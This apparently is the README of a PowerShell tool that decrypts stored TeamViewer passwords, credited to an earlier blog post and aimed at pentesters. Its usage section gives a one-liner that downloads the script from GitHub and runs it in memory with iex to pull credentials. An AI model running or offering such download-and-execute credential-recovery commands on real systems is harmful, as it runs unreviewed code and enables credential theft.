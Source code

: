 # TeamViewerDecrypt - Powershell

Just a quick dirty Powershell implementation of [whynotsecurity](https://github.com/whynotsecurity/)´s Teamviewer decrypt script.

All credit goes to him, blog post can be found here: https://whynotsecurity.com/blog/teamviewer/

Not all passwords in every version can be decrypted using this script. I could not decrypt Teamviewer v14/v15 PermanentPasswords so far.

It worked for me for SecurityPasswordAES in Versions 7 and 8.

Usage as simple as:

```
iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/TeamViewerDecrypt/master/TeamViewerDecrypt.ps1');TeamviewerDecrypt
```
![alt text](https://github.com/S3cur3Th1sSh1t/TeamViewerDecrypt/raw/master/Decrypt.JPG)

As always only use for educational or pentesting purposes. :)
